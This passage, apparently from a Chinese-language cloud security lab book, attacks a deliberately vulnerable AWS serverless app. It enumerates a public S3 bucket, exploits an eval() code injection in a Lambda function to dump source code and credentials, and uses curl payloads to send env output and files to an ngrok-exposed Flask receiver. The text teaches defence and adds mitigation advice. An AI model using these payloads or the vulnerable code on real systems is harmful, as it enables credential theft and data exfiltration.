 <Contents>
  <Key>index.html</Key>
  <LastModified>...</LastModified>
  ...
 </Contents>
</ListBucketResult>
```

如 XML 响应所示，S3 存储桶包含键 `backup/lambda_function.py`，如果存储桶权限允许公开读取，则该键可能可以访问。

2. 将 `[S3 BUCKET NAME]` 替换为你的 S3 存储桶的实际名称，然后在浏览器中打开以下 URL 以尝试直接访问该文件：

```
http://[S3 BUCKET NAME].s3.amazonaws.com/backup/lambda_function.py
```

如果文件可公开访问，则会直接在浏览器中显示 `lambda_function.py` 代码：

```
from os import environ
get_env = environ.get

HARDCODED_KEY_01 = "ABCDE"
HARDCODED_KEY_02 = "FGHIJ"

...
```

#### Note

如果源代码包含硬编码密钥，能够访问此文件 的攻击者将能够检索并滥用这些凭据。他们还可能了解应用程序某些组件的实现方式，这可能会泄露有助于他们识别和利用额外漏洞的实现和配置细节。

3. 在本地机器上打开终端，然后运行以下命令以删除任何存储的 AWS 凭据：

```
rm ~/.aws/credentials
```

#### Tip

或者，你可以在删除凭据文件之前先创建其备份——例如，通过运行 `mv ~/.aws/​cre⁠dentials ~/.aws/credentials.bak`。然后你可以使用 `aws configure list` 验证当前是否没有配置任何配置文件，并且 AWS CLI 未使用任何凭据。

4. 将 `[S3 BUCKET NAME]` 替换为你的 S3 存储桶的实际名称，然后运行以下命令将存储桶名称存储在 shell 变量中：

```
BUCKET_NAME="[S3 BUCKET NAME]"
```

5. 列出存储桶的内容以检查是否允许公开列出：

```
aws s3 ls s3://$BUCKET_NAME/
```

这会输出以下消息：

```
Unable to locate credentials. You can configure credentials by running "aws configure".
```

6. 运行以下命令以尝试对存储桶内容进行未经身份验证的列出：

```
aws s3 ls s3://$BUCKET_NAME/ --no-sign-request
```

这会产生以下输出：

```
                               PRE backup/
    2025-00-00 00:00:00       3257 index.html
```

7. 让我们重复前面的步骤，但这次递归列出所有对象以查看嵌套文件夹中的文件：

```
aws s3 ls s3://$BUCKET_NAME/ --recursive --no-sign-request
```

以下是输出：

```
2025-00-00 00:00:00        875 backup/lambda_function.py
2025-00-00 00:00:00       3257 index.html
```

8. 要获取更详细的输出，请使用 `aws s3api list-objects` 命令以 JSON 格式输出存储桶内容：

```
aws s3api list-objects --bucket $BUCKET_NAME --no-sign-request
```

你应该会看到类似以下输出的 JSON 响应：

```
{
    "Contents": [
        {
            "Key": "backup/lambda_function.py",
            "LastModified": "2025-00-00T00:00:00+00:00",
            "ETag": "\"...\"",
            "ChecksumAlgorithm": [
                "CRC64NVME"
            ],
            "ChecksumType": "FULL_OBJECT",
            "Size": 875,
            "StorageClass": "STANDARD",
            "Owner": {
                "DisplayName": "...",
                "ID": "..."
            }
        },
        {
            "Key": "index.html",
            "LastModified": "2025-00-00T00:00:00+00:00",
            "ETag": "\"...\"",
            "ChecksumAlgorithm": [
                "CRC64NVME"
            ],
            "ChecksumType": "FULL_OBJECT",
            "Size": 3257,
            "StorageClass": "STANDARD",
            "Owner": {
                "DisplayName": "...",
                "ID": "..."
            }
        }
    ],
    "RequestCharged": null,
    "Prefix": ""
}
```

9. 创建一个用于下载文件的目录，然后检查是否可以在无需身份验证的情况下从存储桶下载特定文件：

```
mkdir downloaded_files

aws s3 cp s3://$BUCKET_NAME/backup/lambda_function.py \
    ./downloaded_files/ --no-sign-request
```

这应该会成功将 `lambda_function.py` 文件下载到 `downloaded_files` 目录中：

```
download: s3://serverless-static-website.../backup/lambda_function.py
to downloaded_files/lambda_function.py
```

10. 创建一个示例文件并尝试在无需身份验证的情况下将其上传到 S3 存储桶：

```
touch sample.txt

aws s3 cp ./sample.txt s3://$BUCKET_NAME/ --no-sign-request
```

由于存储桶不允许公开写入，因此此命令应以 `AccessDenied` 错误失败：

```
upload failed: ./sample.txt to
s3://serverless-static-website.../sample.txt An error occurred
(AccessDenied) when calling the PutObject operation: Access Denied
```

在实践中，团队可能会对多个用途重复使用同一个 S3 存储桶，例如托管静态资源、存储备份，有时甚至存储应用程序代码和配置，这可能会无意中将敏感文件和配置数据与托管网站一起暴露。攻击者不会假设 S3 存储桶仅包含 HTML 或 JavaScript 文件。他们通常会枚举存储桶以检查是否存在其他对象，例如备份、凭据或日志文件，这些文件可能会无意中泄露有助于发起进一步攻击的有用信息。

从防御安全角度来看，你应仔细规划每个 S3 存储桶的用途，并倾向于为不同类型的数据使用单独的存储桶，以避免意外暴露敏感信息。你应确保每个存储桶都应用了正确的访问控制配置，并启用日志记录以持续监控和审计访问。此外，除了这些措施之外，你还应考虑实施自动化警报，以便在 S3 存储桶配置错误或变得公开可访问时通知你或你的团队。

### 使用代码注入攻击在 Lambda 函数中执行任意代码

在本节中，你将探索攻击者如何通过滥用动态代码执行漏洞来利用编写不佳的 Lambda 函数。你将首先通过使用有效输入表达式来实验，以确定应用程序的正常行为。然后你将模拟攻击者使用无效和恶意输入，以观察函数对意外情况的反应，包括检索源代码文件和提取环境变量。在使用代码注入有效载荷从 Lambda 执行环境中检索 AWS 临时凭据后，你将使用它们在攻击者账户中配置新的 AWS CLI 配置文件。


延续之前的类比，这类似于将维护控制台保持解锁状态并配置为接受输入的任何命令，让入侵者运行诊断程序以暴露控制面板原理图、检索访问代码，并外泄系统日志、蓝图和访问列表。这使得攻击者可以轻松地绘制建筑的防御图，识别并提取敏感信息，并可能维持对设施系统的远程访问。

#### Note

本节的后半部分假设你正在使用 Attacker 账户来模拟攻击者尝试利用无服务器实验室环境中的资源。

让我们继续进行模拟：

1. 切换回浏览器标签页，其中 S3 主机网站已打开。

2. 评估以下表格中的输入表达式，以观察 Lambda 函数如何处理有效、无效和潜在危险的输入：

| Input expression || Output response |
| --- | --- |
| `1 + 1 + 1` || `3` |
| --- | --- |
| `(10 / 5) + 42` || `44.0` |
| `a` || `Error: HTTP error! Status: 502` |
| `'` || `Error: HTTP error! Status: 502` |
| `"` || `Error: HTTP error! Status: 502` |
| `system("id");` || `Error: HTTP error! Status: 502` |
| `require('child_process').exec('id')` || `Error: HTTP error! Status: 502` |
| `__import__('os').system('id')` || `0` |

#### Note

Python 表达式 `__import__('os').system('id')` 执行成功并返回 `0`，这表明其他类似的表达式也可能允许攻击者调用系统级或 shell 命令。

3. 评估以下表达式：

```
__import__('subprocess').check_output('ls', shell=True)
```

这会返回以下响应：

```
b'lambda_function.py\n'
```

这里，`eval()` 函数在 Lambda 函数中执行表达式 `import(subprocess).check_output(ls, shell=True)`，在 shell 中运行 `ls` 命令以列出当前目录中的文件，包括 `lambda_function.py`。

4. 评估以下表达式以检索 Lambda 函数内部的源代码：

```
__import__('subprocess').check_output('cat *.py', shell=True)
```

这会返回以下输出：

```
b'from os import environ\nget_env = environ.get\n\nHARDCODED_KEY_01 = "ABCDE"\nHARDCODED_KEY_02 = "FGHIJ"\n\n\ndef get_statement(event):\n    params = event.get(\'queryStringParameters\', {})\n    statement = params.get(\'statement\', None)\n    \n    return statement\n\n\ndef process_statement(statement):\n    output = "No statement parameter value provided"\n    \n    if statement:\n        output = eval(statement)\n    \n    return output\n\n\ndef lambda_handler(event, context):\n    print("event: ", event)\n    print("HARDCODED_KEY_01: ", HARDCODED_KEY_01)\n    print("HARDCODED_KEY_02: ", HARDCODED_KEY_02)\n    print("CUSTOM_ENV_VAR_01: ", get_env(\'CUSTOM_ENV_VAR_01\'))\n    print("CUSTOM_ENV_VAR_02: ", get_env(\'CUSTOM_ENV_VAR_02\'))\n    \n    statement = get_statement(event)\n    result = process_statement(statement)\n    \n    return {\n        \'statusCode\': 200,\n        \'body\': str(result)\n    }'
```

这里，Lambda 函数中的 `eval()` 函数在 shell 中运行 `cat *.py` 命令，该命令将当前目录中以 `.py` 结尾的所有文件的内容连接并显示出来。

5. 评估以下表达式以检索 Lambda 执行环境中的环境变量：

```
__import__('subprocess').check_output('env', shell=True)
```

你应该得到以下响应：

```
b'AWS_LAMBDA_FUNCTION_VERSION=$LATEST\n_X_AMZN_TRACE_ID=Root=1-...;Parent=...;Sampled=0;Lineage=1:...1:0\nAWS_EXECUTION_ENV=AWS_Lambda_python3.13\nAWS_DEFAULT_REGION=us-east-1\nAWS_LAMBDA_LOG_STREAM_NAME=...\nAWS_REGION=us-east-1\nPWD=/var/task\n_HANDLER=lambda_function.lambda_handler\nTZ=:UTC\nLAMBDA_TASK_ROOT=/var/task\nLANG=en_US.UTF-8\nCUSTOM_ENV_VAR_01=KLMNO\nCUSTOM_ENV_VAR_02= PQRST\nAWS_SECRET_ACCESS_KEY=...\nAWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/lambda-0010\nAWS_LAMBDA_RUNTIME_API=...\nAWS_LAMBDA_FUNCTION_MEMORY_SIZE=128\nLAMBDA_RUNTIME_DIR=/var/runtime\nPYTHONPATH=/var/runtime\n_AWS_XRAY_DAEMON_ADDRESS=...\nAWS_XRAY_DAEMON_ADDRESS=...\nSHLVL=0\nAWS_ACCESS_KEY_ID=...\nLD_LIBRARY_PATH=...\nAWS_LAMBDA_INITIALIZATION_TYPE=on-demand\nAWS_SESSION_TOKEN=...AWS_XRAY_CONTEXT_MISSING=LOG_ERROR\n_AWS_XRAY_DAEMON_PORT=2000\n_=/usr/bin/env\n'
```

6. 打开一个新的浏览器标签页并使用你的 Attacker 账户登录到 [AWS Management Console](https://oreil.ly/qe5es)。

7. 在搜索栏中输入 `cloudshell`，然后从匹配的服务列表中选择 CloudShell。

8. 在 CloudShell 终端中，运行以下命令 在 `$` 符号之后，使用临时凭证创建一个名为 `assumed-lambda-role` 的配置文件：

```
if [ -e "$HOME/.aws/credentials" ]; then
    mv ~/.aws/credentials ~/.aws/credentials.bak
fi

aws configure set aws_access_key_id [KEY_ID] \
    --profile assumed-lambda-role

aws configure set aws_secret_access_key [SECRET_ACCESS_KEY] \
    --profile assumed-lambda-role

aws configure set aws_session_token [SESSION_TOKEN] \
    --profile assumed-lambda-role
```

请务必将 `[KEY_ID]`、`[SECRET_ACCESS_KEY]` 和 `[SESSION_TOKEN]` 替换为来自以下表格的相应值：

| Placeholder || Value |
| --- | --- |
| `[KEY_ID]` || `AccessKeyId` value from step 5 (`AWS_ACCESS_KEY_ID`) |
| --- | --- |
| `[SECRET_ACCESS_KEY]` || `SecretAccessKey` value from step 5 (`AWS_SECRET_ACCESS_KEY`) |
| `[SESSION_TOKEN]` || `SessionToken` value from step 5 (`AWS_SESSION_TOKEN`) |

9. 运行以下命令以测试所假设的角色凭证：

```
aws sts get-caller-identity --profile assumed-lambda-role
```

以下响应表明所假设的角色会话已成功建立：

```
{
    "UserId": "...:lambda-0010",
    "Account": "...",
    "Arn": "arn:aws:sts::...:assumed-role/lambda-0010-role-.../lambda-0010"
}
```

从这里开始，如果附加的 Lambda 角色配置了提升的权限，你应该能够根据这些权限执行操作，例如访问账户中的其他 AWS 资源。如果角色过于宽松并附加了 `AdministratorAccess` 策略，你就可以有效地完全控制 AWS 账户。

从防御安全角度来看，你永远不应将过于宽松的策略 例如 `AdministratorAccess` 附加到 Lambda 执行角色。相反，应通过仅授予函数所需的特定权限来应用最小权限原则。你还应定期审查和审计 IAM 策略，以确保它们与函数的实际需求保持一致。此外，避免使用 `eval()` 或其他动态代码执行机制等危险函数，因为它们会引入代码注入风险并导致任意代码执行漏洞。

### Exfiltrating Sensitive Data via Code Injection and Outbound Network Access

在前面的章节中，你探索了一个相对直接的代码注入场景：攻击者滥用不安全的动态代码执行，例如使用 `eval()`，在易受攻击的 Lambda 函数内运行任意命令。在此基础上，本节将进一步展示攻击者如何将类似的代码注入技术与出站网络访问相结合，从 Lambda 执行环境中外泄敏感数据。

为了帮助你深入了解攻击者如何绕过薄弱或实现不当的保护措施，本节分为三个部分：


*   “使用有限代码注入防护更新 Lambda 函数”

*   “设置接收外泄数据的服务器”

*   “攻击易受攻击的无服务器 Web 应用程序”

让我们继续更新你的易受攻击的无服务器实验环境设置。

#### 更新具有有限代码注入防护的 Lambda 函数

在本节中，你将使用 `sanitize_output()` 函数更新现有的 Lambda 函数代码，以增加一层防御代码注入攻击的保护。虽然此新函数并非万无一失，但它会在输出返回之前过滤掉非数字字符，从而限制恶意代码执行的风险和影响。

#### Note

本节假定你正在使用 Serverless Lab 账户，该账户托管易受攻击的无服务器实验环境。

让我们通过更新 Lambda 函数代码继续操作：

1. 切回已打开 Serverless Lab AWS 账户的浏览器标签页。继续下一步之前，请确保已打开 `lambda-0010` 的 AWS Lambda 函数详情页面。

2. 找到“Code source”部分，然后用以下代码替换现有的 `lambda_function.py` 代码：

```
import re

from os import environ
get_env = environ.get

HARDCODED_KEY_01 = "ABCDE"
HARDCODED_KEY_02 = "FGHIJ"


def get_statement(event):
    params = event.get('queryStringParameters', {})
    statement = params.get('statement', None)

    return statement


def process_statement(statement):
    output = "No statement parameter value provided"

    if statement:
        output = eval(statement)

    return output


def sanitize_output(output):
    return re.sub(r'[^-0-9\.]', '', str(output))


def lambda_handler(event, context):
    print("event: ", event)
    print("HARDCODED_KEY_01: ", HARDCODED_KEY_01)
    print("HARDCODED_KEY_02: ", HARDCODED_KEY_02)
    print("CUSTOM_ENV_VAR_01: ", get_env('CUSTOM_ENV_VAR_01'))
    print("CUSTOM_ENV_VAR_02: ", get_env('CUSTOM_ENV_VAR_02'))

    statement = get_statement(event)
    result = process_statement(statement)

    return {
        'statusCode': 200,
        'body': sanitize_output(result)
    }
```

此 `sanitize_output()` 函数会剥离评估结果中所有非数字或点号的字符。这可确保只有经过清理的数值输出会被发送回用户。

#### Caution

实现的 `sanitize_output()` 函数是有意设计为存在缺陷的，仅用于演示目的。它仅移除非数字字符，但在清理步骤之前，`eval()` 函数仍可执行恶意表达式。

3. 修改完 `lambda_function.py` 后，点击 Deploy。你应收到通知 `Successfully updated the function lambda-0010`。

4. 要测试刚部署的 Lambda 函数，请点击 Test。你应看到以下响应：

```
Status: Succeeded
Test Event Name: event-0010

Response:
{
  "statusCode": 200,
  "body": "2"
}

Function Logs:
START RequestId: ... Version: $LATEST
event: {'queryStringParameters': {'statement': '1 + 1'}}
HARDCODED_KEY_01:  ABCDE
HARDCODED_KEY_02:  FGHIJ
CUSTOM_ENV_VAR_01:  KLMNO
CUSTOM_ENV_VAR_02:  PQRST
END RequestId: ...
REPORT RequestId: ...   Duration: 20.50 ms  Billed Duration: 21 ms
Memory Size: 128 MB Max Memory Used: 35 MB  Init Duration: 89.30 ms
```

5. 切到已打开 S3 托管网站的浏览器标签页。然后输入并计算以下表达式：

```
1 + 2 + 3 / 4
```

这会产生以下输出：

```
3.75
```

#### Tip

为确保更新后的 Lambda 代码按预期工作，你可以随意测试其他场景，例如 `(1 * 2) / 5` 和 `5 - 42`。

6. 让我们检查应用程序对以下输入的响应方式：

```
__import__('subprocess').check_output('ls', shell=True)
```

这会返回以下响应：

```
.
```

这里仅返回一个点 `.`，因为 `sanitize_output()` 函数在 `eval()` 函数执行表达式后过滤掉了所有其他字符。

7. 检查你是否仍能通过以下表达式检索源代码：

```
__import__('subprocess').check_output('cat *.py', shell=True)
```

以下是输出：

```
.0102...-0-9.0101020201010202200---------
```

同样，输出被剥离为点和数字的混合体（以及负号），因为 `sanitize_output()` 过滤掉了所有其他字符。

8. 让我们验证你是否能够检索环境变量：

```
__import__('subprocess').check_output('env', shell=True)
```

你应得到以下响应：

```
1-68859515-3978245150425469445213380001635003.13--120250726897265143959964--1..-801020695332-0010169.254.100.19001128169.254.100.1169.254.100.120000562276464.-8-0010-322357658187119782506095156401005074936293558585764898474881046818836747799591606034728881849831108942369153722321016774420488178155749911041812000
```

由于新的 `sanitize_output()` 函数已就位，你的 Lambda 函数*似乎*已受到代码注入攻击的保护。然而，正如你在以下各节中将看到的那样，Lambda 函数的出站网络访问使攻击者能够将敏感数据（例如环境变量和源代码）发送到外部服务器。

#### 设置接收外泄数据的服务器

在上一节中，你为易受攻击的无服务器 Web 应用程序更新了 Lambda 函数，并添加了 `sanitize_output()` 函数，在将结果发送回前端之前剥离所有非数字字符。从攻击者的角度来看，此更改阻止了他们通过浏览器直接检索外泄数据，但底层漏洞仍然存在。攻击者仍可修改代码注入有效载荷，将外泄数据发送到其控制下的外部服务器，如 Figure 6-6 所示。



此外部服务器可以是基于云的虚拟机，例如 EC2 实例，或任何其他运行配置为接收外泄数据的 Web 服务器的主机。一旦此服务器准备就绪，攻击者就可以调整其有效载荷，直接将外泄数据（包括凭据和环境变量）发送到该服务器。然后，他们可以通过检查 Web 服务器的访问日志或有效载荷写入的任何存储来检索外泄的值。请记住，当 Lambda 函数具有不受限制的出站访问权限时，这种方法是可行的。例如，当它未关联到 VPC 时就会发生这种情况，因为未附加到 VPC 的函数默认通过 AWS 管理网络进行互联网出站。如果 Lambda 函数放置在 VPC 内，其出站连接性由 VPC 配置决定，包括子网路由、NAT 或互联网网关的存在，以及安全组或网络访问控制列表中定义的出站规则。


在本节中，你将在本地机器上运行一个服务器，该服务器将接收来自受损 Lambda 函数执行环境的外泄数据。更具体地说，你将设置一个用 Python 编写的简单 Flask 服务器，以接受传入的 HTTP 请求并记录接收到的负载。此本地服务器随后将通过 `ngrok` 暴露到互联网，`ngrok` 会创建一个安全的公共 HTTPS URL，将传入请求隧道传输到本地服务器的端口。

#### Note
本节假设你使用的是本地机器，该机器将托管本地 Flask 服务器和接收外泄数据的 `ngrok` 隧道。如果你使用的是 Windows，请确保你有一种运行 macOS 或 Linux 命令的方法（例如，通过使用 WSL 或带有 Linux 发行版的 VM）。这将帮助你在不遇到平台特定问题的情况下运行本节中的命令。或者，你可以在你的攻击者账户中启动一个 EC2 Linux 实例，关联一个 Elastic IP 地址，使用 Secure Shell `SSH` 访问该实例，然后在该实例上运行 Flask 服务器。^7

让我们继续在你的本地机器上设置本地服务器和 `ngrok` 隧道：

1. 在本地机器上打开一个终端窗口，在此窗口中运行即将到来的命令。

   ### Tip
   导航到你通常保存项目或实验文件的目录，以便以后可以轻松找到本章的项目文件。

2. 创建一个名为 `request-receiver` 的新项目目录，然后进入它：

```
mkdir request-receiver

cd request-receiver
```

3. 创建并激活一个 Python 虚拟环境：

```
python3 -m venv venv
source venv/bin/activate
```

此 Python 虚拟环境为你的项目依赖提供了一个隔离空间，防止与其他项目或系统范围的 Python 安装发生冲突。

4. 创建一个空的 `requirements.txt` 文件：

```
touch requirements.txt
```

#### Note
`requirements.txt` 文件指定了你的项目所需的 Python 包和版本。它作为依赖项的快照，让你可以使用单个 `pip install -r requirements.txt` 安装它们全部。例如，Flask 项目可能包含像 `Flask==3.1.1` 这样的条目，以确保安装了正确的框架版本。

5. 在代码编辑器中打开 `requirements.txt` 文件并添加以下依赖项：^8

```
blinker==1.9.0
click==8.2.1
Flask==3.1.1
itsdangerous==2.2.0
Jinja2==3.1.6
MarkupSafe==3.0.2
Werkzeug==3.1.3
```

#### Caution
编辑后不要忘记保存 `requirements.txt` 文件。

6. 安装 `requirements.txt` 中列出的依赖项：

```
pip install -r requirements.txt
```

7. 使用 `touch` 命令创建一个空的 `app.py` 文件：

```
touch app.py
```

8. 在代码编辑器中打开 `app.py` 并添加以下代码：^9

```
from flask import Flask, request
from datetime import datetime, UTC
from contextlib import contextmanager


def print_pair(*args):
    if len(args) == 2:
        key, value = args
        label = f"{key}:"
        print(f"{label:<25}{value}")
    else:
        print(args[0])


@contextmanager
def info(label):
    print_line()
    print(label)
    print_line()
    yield print_pair
    print_line()


def print_line():
    print("-" * 100)


METHODS = ['GET', 'POST', 'PUT', 'DELETE', 'PATCH', 'OPTIONS']
app = Flask(__name__)

@app.route('/', methods=METHODS)
@app.route('/<path:path>', methods=METHODS)
def catch_all(path=''):
    with info("NEW REQUEST") as p:
        p("Time", datetime.now(UTC))
        p("Method", request.method)
        p("Path", request.path)

    with info("HEADERS") as p:
        for key, value in dict(request.headers).items():
            p(f"{key}", value)

    with info("BODY") as p:
        p(request.get_data(as_text=True))

    return 'Request received\n', 200


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

此 Flask 服务器实现捕获所有传入的 HTTP 请求，并以清晰的结构化格式记录它们，以便你能快速从传入请求中检索特定值（例如环境变量、凭据、令牌或标头）。当 Flask 服务器接收到请求时，它会以结构化格式记录该请求的关键细节。然后它记录时间戳、HTTP 方法和路径，然后是标头以及原始正文内容。

#### Note
Flask 是一个用于构建 Web 应用程序的轻量级 Python 框架。^10 在此请求接收器 Web 应用程序中使用的 `@app.route` 装饰器，你定义服务器应监听哪些 URL 以及哪个函数应处理每个请求。在本例中，`catch_all()` 函数配置为处理每种受支持的 HTTP 方法和路径，这使其能够捕获并记录任何传入请求，而不管 URL 如何。

9. 在终端中，使用以下命令启动 Flask 应用程序：

```
python app.py
```

如果一切设置正确，你应该会看到以下输出，表明 Flask 正在端口 `8000` 上运行并准备接收请求：

```
* Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production
deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:8000
 * Running on http://192.168.254.159:8000
Press CTRL+C to quit
```

#### Tip
确保让此 Flask 服务器保持运行，以确保它在 本章后续部分的测试期间可访问。

现在你已在本地机器上运行了 Flask 服务器，下一步是通过 `ngrok` 隧道使其公开可访问，以便你在模拟期间注入的恶意负载可以向服务器发送提取的数据（例如环境变量和源代码）。让我们继续执行设置 `ngrok` 隧道的步骤：

1. 打开一个新的浏览器标签页并导航到 [*https://ngrok.com*](https://ngrok.com) 以查看 `ngrok` 着陆页。

   ### Note
   在本章中，你将使用 `ngrok` 通过安全的公共 URL 将本地 Flask 服务器暴露到互联网。你需要注册一个 `ngrok` 账户，以便为本章的设置检索身份验证令牌 `authtoken`。^11

2. 点击“Sign up”创建新账户。

3. 完成注册流程，然后登录到你的 `ngrok` 仪表板。

4. 在左侧边栏中，点击 Setup & Installation。

5. 在新的终端窗口中，按照提供的安装说明下载并在本地机器上安装 `ngrok`。

   ### Note
   步骤将根据你的操作系统而有所不同。

6. 安装 `ngrok` 后，切换回浏览器标签页，其中 `ngrok` 仪表板已打开。

7. 在左侧边栏中，点击 Getting Started 部分下的 Your Authtoken。

8. 点击你的 authtoken 旁边的 Copy 按钮。此 authtoken 将用于验证你的本地 `ngrok` 客户端。^12

9. 切换回本地机器上的终端窗口。用复制的 authtoken 替换 `<YOUR AUTHTOKEN>`，然后运行以下命令以验证你的 `ngrok` 代理：

```
ngrok config add-authtoken <YOUR AUTHTOKEN>
```

10. 通过在端口 `8000` 上启动 `ngrok` 隧道将你的 Flask 服务器暴露到互联网：

```
ngrok http 8000
```

这会产生以下输出：


```
ngrok                                                                                                                                                                                      (Ctrl+C to quit)

all internal services from your gateway: ...

Session Status          online
Account                 ... (Plan: Free)
Version                 3.23.3
Region                  Asia Pacific (ap)
Latency                 47ms
Web Interface           http://127.0.0.1:4040
Forwarding              https://<ID>.ngrok-free.app -> http://localhost:8000

Connections             ttl     opn     rt1     rt5     p50     p90
                        0       0       0.00    0.00    0.00    0.00
```

这里，`ngrok` 从一个公共 URL 创建到本地 Flask 服务器的安全隧道，将所有传入请求转发到端口 `8000`。^(13)

#### Note

请务必从 Forwarding 部分复制 HTTPS 转发 URL，例如 `https://<ID>.ngrok-free.app`。在后续步骤中你需要它来接收 HTTP 请求到本地。

此时，你应该在本地机器上同时运行 Flask 服务器和 `ngrok` 隧道。有了这个设置，任何发送到 `ngrok` HTTPS 转发 URL 的请求都会通过隧道安全地转发到端口 `8000` 上的 Flask 服务器。例如，如果包含环境变量的请求发送到 `ngrok` HTTPS 转发 URL，你应该会在 Flask 服务器日志中看到这些环境变量。

请记住，此设置旨在帮助你理解代码注入攻击后捕获和分析被窃取数据的过程。攻击者在真实攻击中通常会使用更复杂的工具和专用基础设施，以及更隐蔽的数据外泄技术。

#### Attacking the Vulnerable Serverless Web Application

在前面的章节中，你在 Lambda 代码中引入了一个部分有效的防御控制，并配置了一个攻击者控制的服务器来捕获被窃取的数据。在本节中，你将再次模拟攻击过程，并重点关注攻击者如何利用出站连接将敏感数据外泄到外部服务器。

一切准备就绪，让我们继续模拟：

1. 切回浏览器标签页，其中 S3 托管的网站已打开。

   ### Tip

   如果你不小心关闭了浏览器标签页，可以通过在新标签页中导航到 `http://BUCKET_NAME.s3-website-REGION.amazonaws.com` 来重新打开你的 S3 托管静态网站。记得用你设置中的实际值替换 `BUCKET_NAME` 和 `REGION`。你也可以通过 AWS 管理控制台检索存储桶网站端点，方法是转到 S3 存储桶的 Properties 选项卡，并在“静态网站托管”下查看“存储桶网站端点”。

2. 输入并评估以下表达式以将你的环境变量发送到暴露的 Flask 服务器：

   ```
   __import__('os').system('curl -X POST -d \"$(env)\" https://[GENERATED ID].ngrok-free.app')
   ```

   ### Note

   请确保将 `[GENERATED ID]` 替换为 HTTPS 转发 URL 的 `<ID>` 值。

3. 通过在新浏览器标签页中访问 *http​://127.0.0.1:4040* 打开本地 `ngrok` Web 界面 (Figure 6-7)。

   在这里，你可以检查通过 `ngrok` 隧道接收的 HTTP 请求，并从发送到 Flask Web 服务器的环境变量中提取凭据。

   ### Note

   你也可以通过检查 Flask 服务器的终端输出来检查环境变量。

   

4. 切回浏览器标签页，其中 S3 托管的网站已打开，然后评估以下表达式以将你的 Base64 编码环境变量发送到暴露的 Flask 服务器：

   ```
   __import__('os').system('env | base64 | curl -X POST --data-binary @- https://[GENERATED ID].ngrok-free.app')
   ```

   这里，`@-` 是一个 `curl` 参数，表示“从 stdin 读取请求体”。`@-` 和 `https` 之间必须有一个空格，即 `--data-binary @- https://...`，以便数据源参数和目标 URL 是独立的 shell 参数。如果没有那个空格，URL 将成为同一 token 的一部分，命令将不会按预期运行。

   ### Tip

   你可以通过在单独的终端窗口中运行以下命令来解码 Base64 编码的字符串：`echo "<BASE64 ENCODED STRING>" | base64 -d`。

5. 评估以下表达式以将 Lambda 函数的源代码外泄到你的 Flask 服务器：

   ```
   __import__('os').system('curl -X POST --data-binary @/var/task/lambda_function.py https://[GENERATED ID].ngrok-free.app')
   ```

   此 shell 命令使用 `curl` 通过 `POST` 请求将已部署 Lambda 函数源代码文件 (`/var/task/lambda_function.py`) 的原始内容发送到外部 HTTP 端点。

   你应该得到以下 Flask 服务器输出：

   ```
   -------------------------------------------------------
   BODY
   -------------------------------------------------------
   import re
   
   from os import environ
   get_env = environ.get
   
   HARDCODED_KEY_01 = "ABCDE"
   HARDCODED_KEY_02 = "FGHIJ"
   
   
   def get_statement(event):
       params = event.get('queryStringParameters', {})
       statement = params.get('statement', None)
   
       return statement
   
   ...
   ```

看起来你的 Lambda 函数仍然容易受到代码注入攻击！你可能会想通过将环境变量中的密钥转移到 Secrets Manager 来解决这个问题。然而，正如你在下一节中将看到的，仅仅将密钥存储在 Secrets Manager 中并不能完全解决问题的根本原因。同时，它也无法阻止攻击者执行任意代码并可能外泄数据。

### Stealing Secrets Manager Secrets Through a Vulnerable Lambda Function

你经常听说使用密钥管理器服务存储密钥可以确保凭据得到安全存储和轮换。虽然这是真的，但它并不是万能的，因为攻击者仍可能通过利用 Lambda 函数中的漏洞或函数相关 IAM 角色的错误配置来获取密钥。

在本节中，你将更新你的有意易受攻击的无服务器 Web 应用程序以使用 AWS Secrets Manager 作为主要的密钥存储。你将修改 Lambda 函数代码使其从 Secrets Manager 检索密钥，并相应地更新函数的角色权限。你随后将模拟通过代码注入漏洞窃取 Secrets Manager 密钥的攻击，如 Figure 6-8 所示。



为了帮助你理解这些风险如何被利用和缓解，本节分为四个部分：

*   “Storing Secrets in AWS Secrets Manager”

*   “Updating the Lambda Function Role Permissions for Accessing Secrets Manager”

*   “Updating the Lambda Function Code to Retrieve Secrets from Secrets Manager”

*   “Stealing Secrets Manager Secrets Through a Code Injection Attack”


在本节结束时，您将更好地了解攻击者如何利用代码注入漏洞和角色配置错误来从 Secrets Manager 中窃取机密。

#### 在 AWS Secrets Manager 中存储机密

如果您之前使用过无服务器应用程序，您可能听说过使用 AWS Secrets Manager 来处理敏感信息（如 API 密钥、数据库凭据或访问令牌）的建议。Secrets Manager 通过提供安全且集中的方式来存储、检索和自动轮换机密，从而消除了将机密硬编码到 Lambda 函数中的风险。这在无服务器环境中尤其有价值，因为代码经常更新和部署，使硬编码机密成为一种危险的做法。

#### Note
本节假定您使用的是 Serverless Lab 账户，该账户将托管易受攻击的无服务器实验室环境。

让我们逐步了解如何在 AWS Secrets Manager 中存储机密：

1. 打开一个新的浏览器标签页并导航到 [AWS 管理控制台](https://oreil.ly/qe5es)，使用您的 Serverless Lab AWS 账户。
2. 在搜索栏中输入 `secrets manager`；然后从匹配的服务列表中选择 Secrets Manager，以导航到 Secrets Manager 控制台。
3. 在 Secrets Manager 控制台上，选择左侧导航窗格中的 Secrets，然后单击“Store a new secret。”
4. 在“Choose secret type”页面下，在“Secret type”下，选择“Other type of secret。” 在“Key/value pairs”下，指定以下配对：
   * `secret1`: `secret-value1`
   * `secret2`: `secret-value2`
   * `secret3`: `secret-value3`
   然后单击 Next。
5. 在“Configure secret”页面下，在“Secret name and description”下，在“Secret name”字段中输入 `prod/lambda-secret`。然后单击 Next。
6. 在“Configure rotation”页面，单击 Next。
7. 在 Review 页面，向下滚动到底部并单击 Store。

#### Note
出现以下通知，表明机密已成功创建：`You successfully stored the secret prod/lambda-secret. To show it in the list, click Refresh`。

有了这个，您可以继续更新附加到 Lambda 函数的 IAM 角色，以确保它具有正确的安全访问 AWS Secrets Manager 的权限。

#### 更新 Lambda 函数角色权限以访问 Secrets Manager

目前，附加到 Lambda 函数的 IAM 角色没有访问 AWS Secrets Manager 所需的权限。在本节中，我将指导您为 Lambda 角色创建自定义内联策略，允许函数安全地访问和检索机密。

#### Note
本节假定您使用的是 Serverless Lab 账户，该账户托管易受攻击的无服务器实验室环境。

让我们继续更新 Lambda 执行角色：

